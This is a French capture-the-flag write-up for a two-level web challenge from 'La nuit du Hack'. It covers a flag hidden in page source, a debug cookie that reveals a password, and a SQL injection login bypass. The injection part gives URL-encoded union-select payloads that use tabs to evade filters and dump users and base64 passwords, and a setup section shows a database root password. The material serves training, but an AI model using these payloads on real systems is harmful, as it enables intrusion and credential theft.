# Find_me_among_us

:warning: Ce write-up est destinée uniquement au participant à l'événement "La nuit du Hack" et ne dois faire l'objet d'aucune autre diffusion :exclamation:


| Apprentis     | Catégorie       | Niveau                                                                         |
| :-------------- | :----------- | :------------------------------------------------------------------------------ |
| Sofiane Zekri | Web | Facile-Difficile |

## Énoncé - Facile

Un site très bizarre a été consulté à la cci.. On vous missionne pour enquêter sur celui-ci.

Lien: http://ccci.m2i.ctf:13000

## Flag - Facile
Facile - NHM2I{d296e782-06bb-4662-9d07-401c736619a6}


## Résolution - Facile
Pour le résoudre, il nous faut fouiller le plus possible le site. 

Pour cela, plusieurs méthodes :
* Je peux chercher à la main et ainsi cliquer sur l'among us imposteur pour récupérer le flag dans le code
source :


* Je peux aussi directement fouiller tout le code source de A à Z mais prend un peu plus de temps :



## Énoncé - Difficile

L'Imposteur semble utiliser un "from" pour se connecter peux essayer de trouver ses identifiants?

Lien: http://ccci.m2i.ctf:13000

## Flag - Difficile
Difficile - NHM2I{9bd62c7d-9708-42dc-9e1f-456ac1b584e3}

## Résolution - Difficile
### Objectif
Notre objectif ici est de trouver les bonnes informations pour compléter ce formulaire:

### Retrouver le nom
Le Nom a été révélé dans le challenge précédent. (Find_me_among_us) -> Name= Imposteur


### Retrouver le mot de passe
Le mot de passe est caché par un cookie (debug) qui faut passer à "true"


### Accéder à la suite du challenge
Il faut maintenant se connecter via le formulaire:



Une fois arrivé sur la nouvelle page il faut identifier le challenge:



### Injection SQL
Le but est de realisé une injection SQL :



* La premiere difficulté et de trouvé le champs injectable (Username)
* Comprendre comment injecter (cookie de session dans le from + suppression des espaces et commentaires)

Une fois, cette étape passée, on peut tester un **``or true``** :
* Il est important d'utiliser des caracteres d'espacement autre que "/**/" ou un "espace"
* Il est aussi important d'utiliser le bon token



```
username=%27or%09True%3B%23&password=test&cci=dd799161645cfa17fc3bf729bac66314&button1=Connexion
```
on arrive à recuperer la liste des utilisateurs :
- PAPA_LOUIE
- SPIROU
- PIT
- ADMIN

Le but ici est d'attaquer ADMIN.

**Recherche de la DB**
```
username=%27Union%09SELECT%09table_schema%09FROM%09information_schema.tables%3B%23&password=test&cci=859be26afef04860084e728a58a9e210&button1=Connexion
```


**Recherche des tables en utilisant la DB AM0NG**

```
username=%27Union%09SELECT%09table_name%09FROM%09information_schema.tables%09where%09table_schema=%27AM0NG%27%3B%23&password=test&cci=0b4fb65fa71a2353ebaf0a68eef5852d&button1=Connexion
```



Deux table dans cette db :
* Players
* Players_access

**Recherche des colonne en utilisant la DB AM0NG**

```
username=%27Union%09SELECT%09column_name%09FROM%09information_schema.columns%09where%09table_schema=%27AM0NG%27%3B%23&password=test&cci=911678d2746c198d39b2dc162790d536&button1=Connexion
```


Il faudrait afficher les player_id, les pseudo et les pass (password)
On peut utiliser une union entre ces deux tables ou deux petites requetes:

``` SQL
UNION SELECT pseudo FROM AM0NG.Players;#
UNION SELECT pass FROM AM0NG.Players_access;#
```
Ce qui nous donne respectivement:
```
username=%27UNION%09SELECT%09pseudo%09FROM%09AM0NG.Players%3B%23&password=test&cci=a5dbbbe4cee413c8866aa327192ce97d&button1=Connexion

Username:  ->
PAPA_LOUIE
SPIROU
PIT
ADMIN
```

```
username=%27UNION%09SELECT%09pass%09FROM%09AM0NG.Players_access%3B%23&password=test&cci=d9947641b964c269be12d833e46bfdb8&button1=Connexion

Mot de passe:  ->
ODlwWk41bnA3dkVSajMK
TjJDOG40Y3BSN2VwNEs=
NTY3V1A4UnlkOG5EY3U=
eUtlMkU2VTVtN0Jtbjk=
```
### Déchiffer le mot de passe
Mot de passe : **yKe2E6U5m7Bmn9**



### Recuperation du flag

# Mise en place
```
cd /home/students/CTF/Sofiane/XXX
sudo docker-compose up -d
sudo docker exec -i mysql8 sh -c 'exec mysql -uroot -p"5c6H5JSqbkKUOVaTmIDJkuhi"' < script.sql
```
Code source: [INDEX](index.php)

Code source: [424a4d01-1431-48e5-a2ea-aff2d26c15f7](424a4d01-1431-48e5-a2ea-aff2d26c15f7.php)


